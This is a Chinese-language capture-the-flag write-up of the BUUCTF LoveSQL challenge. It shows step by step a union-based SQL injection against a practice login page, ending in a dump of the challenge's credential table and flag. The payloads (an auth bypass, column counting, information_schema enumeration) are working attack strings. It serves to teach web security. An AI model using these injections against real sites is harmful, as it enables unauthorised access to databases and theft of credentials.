 ```yaml
---
{"dg-publish":true,"dg-path":"安全/靶场/BUU_[极客大挑战 2019]LoveSQL 1.md","permalink":"/安全/靶场/BUU_[极客大挑战 2019]LoveSQL 1/","title":"BUU_[极客大挑战 2019]LoveSQL 1"}
---
```



![Pasted image 20240805172328.png](/img/user/picture/Pasted%20image%2020240805172328.png)
进去就是一个登录界面


随便输入一下
![Pasted image 20240805172439.png](/img/user/picture/Pasted%20image%2020240805172439.png)
发现他是通过url进行传输的

这个后端一定是一个select查询语句
我们尝试将其加上引号来闭合一下语句看一下可不可行


```url
/check.php
?username=111 ' or 1 %23
&password=111
```

> [!NOTE] 注意
> 注意`#`号在url中应写为`%23`


![Pasted image 20240805172857.png](/img/user/picture/Pasted%20image%2020240805172857.png)
发现这里显示成功登陆，并且输出了admin和他的密码(虽然这个两个数据没什么用)

猜测应该是将语句带入数据库查询，如果查询结果不为空，则输出第一个查询结果，如果为空，则输出`# NO,Wrong username password！！！`

下面进行简单测试:
`?username=111 ' or 1 limit 0,1 %23`时还是显示admin
`?username=111 ' or 1 limit 1,1 %23`时显示`# NO,Wrong username password！！！`，猜测这个表中只有一个用户admin
虽然这一步没什么用，但是由于现在由于SQL注入不太熟练，所以感觉应该多思考一下，而不是知识专注于解题


接下来就要用`order by`来知道后端查询语句究竟是select几个值

发现
`?username=admin ' order by 3 %23`时正常显示
`?username=admin ' order by 4 %23`时报错
![Pasted image 20240805174123.png](/img/user/picture/Pasted%20image%2020240805174123.png)
所以只有3个值


接下来我们使用`union`联合查询查看回显位
`?username=111 '  union select 1,2,3 %23`
![Pasted image 20240805174303.png](/img/user/picture/Pasted%20image%2020240805174303.png)
注意，这里username不能设置为admin，因为如果设置为admin，会导致查出来的结果有两个，一个是admin，一个是1，2，3
前端会显示第一个，也就是只会显示admin，所以我们要写一个不存在的用户名


接下来我们查看数据库名
`?username=111 '  union select 1,database(),3 %23`
![Pasted image 20240805174531.png](/img/user/picture/Pasted%20image%2020240805174531.png)
知道数据库名为`geek`


接下来我们查看表名
`?username=111 '  union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database() %23`
注意这条查询语句放在2号位会报错
![Pasted image 20240805174726.png](/img/user/picture/Pasted%20image%2020240805174726.png)
知道有两个数据库
`geekuser` `l0ve1ysq1`

猜测我们想要的信息在`l0ve1ysq1`中，而`geekuser`这个是登陆查询的表

接下来我们查看每个表的列名
`?username=111 '  union select 1,2,group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='geekuser'%23`
![Pasted image 20240805174951.png](/img/user/picture/Pasted%20image%2020240805174951.png)

`?username=111 '  union select 1,2,group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='l0ve1ysq1'%23`
![Pasted image 20240805175017.png](/img/user/picture/Pasted%20image%2020240805175017.png)

发现两个表的列名都是一样的，都是`id` `username` `password`



接下来查看表中的内容
首先是`l0ve1ysq1`表
`?username=111 '  union select 1,2,group_concat(CONCAT_WS(' ', id, username, password) SEPARATOR ', ') FROM l0ve1ysq1 %23`
![Pasted image 20240805181140.png](/img/user/picture/Pasted%20image%2020240805181140.png)
也就是
```
1 cl4y wo_tai_nan_le, 
2 glzjin glzjin_wants_a_girlfriend, 
3 Z4cHAr7zCr biao_ge_dddd_hm, 
4 0xC4m3l linux_chuang_shi_ren, 
5 Ayrain a_rua_rain, 
6 Akko yan_shi_fu_de_mao_bo_he, 
7 fouc5 cl4y, 
8 fouc5 di_2_kuai_fu_ji, 
9 fouc5 di_3_kuai_fu_ji, 
10 fouc5 di_4_kuai_fu_ji, 
11 fouc5 di_5_kuai_fu_ji, 
12 fouc5 di_6_kuai_fu_ji, 
13 fouc5 di_7_kuai_fu_ji, 
14 fouc5 di_8_kuai_fu_ji, 
15 leixiao Syc_san_da_hacker, 
16 flag flag{9c5e3c2a-44a0-4009-b3ca-dc9186c337df}
```
找到了flag


下面查看一下表`geekuser`,看看是不是只有一个admin数据
![Pasted image 20240805181347.png](/img/user/picture/Pasted%20image%2020240805181347.png)
果然是











